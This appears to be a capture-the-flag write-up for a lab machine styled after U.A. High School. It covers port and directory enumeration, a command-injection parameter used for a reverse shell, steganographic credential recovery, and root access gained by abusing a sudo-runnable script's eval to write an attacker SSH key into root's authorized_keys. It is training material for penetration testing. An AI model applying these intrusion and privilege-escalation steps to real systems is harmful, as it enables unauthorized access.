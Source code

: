 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start by scanning the target for open ports.")}}

{{console("nmap -T5 -p- -sV -sC 10.10.123.111", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-19 12:47 CET
Warning: 10.10.123.111 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.123.111
Host is up (0.15s latency).
Not shown: 88 closed tcp ports (conn-refused)
PORT   STATE    SERVICE     VERSION
22/tcp open     ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 58:2f:ec:23:ba:a9:fe:81:8a:8e:2d:d8:91:21:d2:76 (RSA)
|   256 9d:f2:63:fd:7c:f3:24:62:47:8a:fb:08:b2:29:e2:b4 (ECDSA)
|_  256 62:d8:f8:c9:60:0f:70:1f:6e:11:ab:a0:33:79:b5:5d (ED25519)
80/tcp open     http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: U.A. High School
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel")}}

{{text("The scan reveals two open ports: ")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("Next, we proceed to examine the website hosted on port 80.")}}

{{image("../../static/images/uahighschool/000002.jpg")}}

{{text("Inspecting the source code reveals a <code class='bg-gray-300 rounded-md px-1'>/assets</code> directory.")}}

{{text("Navigating to <code class='bg-gray-300 rounded-md px-1'>/assets</code> displays a blank page, which seems unusual.")}}

{{text("Access to <code class='bg-gray-300 rounded-md px-1'>/assets/images</code> is forbidden.")}}

{{text("I used a directory-scanning tool to uncover any hidden directories.")}}

{{console("gobuster dir -u http://10.10.123.111/assets/ -w /usr/share/wordlists/dirb/common.txt", "===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.123.111/assets/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/images               (Status: 301) [Size: 322] [--> http://10.10.123.111/assets/images/]
/index.php            (Status: 200) [Size: 0]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================")}}

{{text("This reveals an <code class='bg-gray-300 rounded-md px-1'>/index.php</code> file.")}}

{{text("Although the file is empty, trying out different parameters in the URL eventually yields a result.")}}

{{image("../../static/images/uahighschool/000003.jpg")}}

{{text("It appears that the <code class='bg-gray-300 rounded-md px-1'>cmd</code> parameter can accept arguments, returning base64-encoded output.")}}

{{text("Let's try and attempt to get a reverse shell.")}}

{{text("I use the following command from <code class='bg-gray-300 rounded-md px-1'>revshells.com</code>. Remember to URL encode your payload.")}}

{{image("../../static/images/uahighschool/000004.jpg")}}

{{text("Passing the encoded payload as a parameter provides us with a reverse shell.")}}

{{image("../../static/images/uahighschool/000005.jpg")}}

{{header("Shell as deku", "shell-as-deku")}}

{{text("There was a file containing a password in <code class='bg-gray-300 rounded-md px-1'>/var/www/Hidden_Content</code> directory, but its we don't know what is it for.")}}

{{console("cat passphrase.txt | base64 -d", "AllmightForEver!!!")}}

{{text("Further exploration leads to an unused image file in the <code class='bg-gray-300 rounded-md px-1'>/var/www/html/assets/images</code> directory.")}}

{{text("I suspected the password might be for extracting hidden content using <code class='bg-gray-300 rounded-md px-1'>steghide</code>.")}}

{{text("I Downloaded the image using <code class='bg-gray-300 rounded-md px-1'>wget 10.10.123.111/assets/images/oneforall.jpg</code>.")}}

{{text("Then, I attempted to extract hidden content with the password.")}}

{{console("steghide extract -sf oneforall.jpg", "Enter passphrase: 
steghide: the file format of the file 'oneforall.jpg' is not supported.")}}

{{text("The extraction failed because the file is of a wrong format.")}}

{{text("Viewing the file's hex dump reveals its <code class='bg-gray-300 rounded-md px-1'>PNG</code> signature.")}}

{{console("xxd oneforall.jpg | head", "00000000: 8950 4e47 0d0a 1a0a 0000 0001 0100 0001  .PNG............
00000010: 0001 0000 ffdb 0043 0006 0405 0605 0406  .......C........
00000020: 0605 0607 0706 080a 100a 0a09 090a 140e  ................
00000030: 0f0c 1017 1418 1817 1416 161a 1d25 1f1a  .............%..
00000040: 1b23 1c16 1620 2c20 2326 2729 2a29 191f  .#... , #&')*)..
00000050: 2d30 2d28 3025 2829 28ff db00 4301 0707  -0-(0%()(...C...
00000060: 070a 080a 130a 0a13 281a 161a 2828 2828  ........(...((((
00000070: 2828 2828 2828 2828 2828 2828 2828 2828  (((((((((((((((( 
00000080: 2828 2828 2828 2828 2828 2828 2828 2828  (((((((((((((((( 
00000090: 2828 2828 2828 2828 2828 2828 2828 ffc0  ((((((((((((((..")}}

{{text("Changing the file signature to <code class='bg-gray-300 rounded-md px-1'>JPG</code> allows <code class='bg-gray-300 rounded-md px-1'>steghide</code> to extract the hidden content.")}}

{{text("This reveals credentials to log in via <code class='bg-gray-300 rounded-md px-1'>SSH</code>.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("I checked <code class='bg-gray-300 rounded-md px-1'>sudo</code> permissions for the user.")}}

{{console("sudo -l", "[sudo] password for deku: 
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh")}}

{{text("We are able to run <code class='bg-gray-300 rounded-md px-1'>feedback.sh</code> as any user.")}}

{{text("Let's read this file.")}}

{{console("cat feedback.sh", "#!/bin/bash

echo 'Hello, Welcome to the Report Form       '
echo 'This is a way to report various problems'
echo '    Developed by                        '
echo '        The Technical Department of U.A.'

echo 'Enter your feedback:'
read feedback

if [[ '$feedback' != *'\'* && '$feedback' != *')'* && '$feedback' != *'$('* && '$feedback' != *'|'* && '$feedback' != *'&'* && '$feedback' != *';'* && '$feedback' != *'?'* && '$feedback' != *'!'* && '$feedback' != *'\\'* ]]; then
    echo 'It is This:'
    eval 'echo $feedback'

    echo '$feedback' >> /var/log/feedback.txt
    echo 'Feedback successfully saved.'
else
    echo 'Invalid input. Please provide a valid input.' 
fi
")}}

{{text("It echoes any input we provide, if it doesn't contain any of the blacklisted symbols. We can notice that the <code class='bg-gray-300 rounded-md px-1'>></code> symbol is permitted, meaning we can use it to write to files.")}}

{{text("We generate a public key using <code class='bg-gray-300 rounded-md px-1'>ssh-keygen</code>, copy the public key and save it in <code class='bg-gray-300 rounded-md px-1'>/root/.ssh/authorized_keys</code>")}}

{{console("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILO60uNhTUNMEDTfn5f+qZZDXWg1JcMGtypKRMyIxnn6 kali@kali >> /root/.ssh/authorized_keys")}}

{{image("../../static/images/uahighschool/000007.jpg")}}

{{text("We now can log in as root by providing our <code class='bg-gray-300 rounded-md px-1'>id_rsa</code> key.")}}

{{console("ssh root@10.10.123.111 -i id_rsa")}}

{{text("We are able to find the flag in <code class='bg-gray-300 rounded-md px-1'>/root</code>.")}}

{{image("../../static/images/uahighschool/000008.jpg")}}

{{script()}}